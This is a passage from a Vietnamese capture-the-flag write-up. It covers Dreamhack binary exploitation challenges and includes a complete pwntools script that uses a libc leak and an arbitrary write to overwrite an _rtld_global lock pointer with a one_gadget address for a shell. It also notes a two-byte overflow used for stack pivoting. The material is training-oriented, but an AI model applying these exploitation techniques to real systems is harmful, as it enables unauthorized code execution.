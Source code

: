     printf("addr: ");
    scanf("%ld", &addr);

    printf("value: ");
    scanf("%ld", &value);

    *(long *)addr = value;
    return 0;
}
```
![image](https://hackmd.io/_uploads/SJqdvBD4kl.png)

bài này tương tự với rtld overwrite chỉ khác là dùng one_gadget 

script 

```
#!/usr/bin/env python3

from pwn import *

exe = ELF("./rtld_patched")
libc = ELF("./libc-2.23.so")
ld = ELF("./ld-2.23.so")

context.binary = exe
p = remote('host3.dreamhack.games', 22474)
#p = process(exe.path)
p.recvuntil(b': ')
leak = int(p.recvline()[:-1],16)
print("leak: ",hex(leak))
libc.address = leak - libc.sym._IO_2_1_stdout_
ld_base = libc.address + 3973120
print("libcaddress: ",hex(libc.address))
print("ld_base: ",hex(ld_base))
rtld_global = ld_base + ld.sym._rtld_global
dl_load_lock = rtld_global + 2312
recursive = rtld_global + 3848
print("recursive: ",hex(recursive))
p.sendlineafter(b'addr: ',str(recursive))
p.sendlineafter(b'value: ',str(libc.address+0x4527a))
#one gadget : 0x4527a , 0xf03a4 , 0xf1247

p.interactive()
```


---------------------

12 . MSNW 
------

bài này liên quan tới one-of-bytes ( tuy nhiên ở đây là two-of-bytes )

- reverse : bài này có 2 hàm chính Meong và Nyang . đầu tiên ctrinh sẽ gọi Meong trước
- có 1 lỗi tràn 2 bytes ở read → có thể hàm gì đó với địa chỉ ( thường là sẽ pivot stack ) . nó so sánh kí tự đầu có phải là q không . nếu không phải thì return 1 và ngược lại thì exit ctrinh
- function Nyang sẽ in cái mà ta nhập ở Meong

![image](https://hackmd.io/_uploads/HyixsBj7kg.png)


![image](https://hackmd.io/_uploads/S1fWiSoQJg.png)

![image](https://hackmd.io/_uploads/rknWsrsQkx.png)

![image](https://hackmd.io/_uploads/By7MjSsQye.png)
```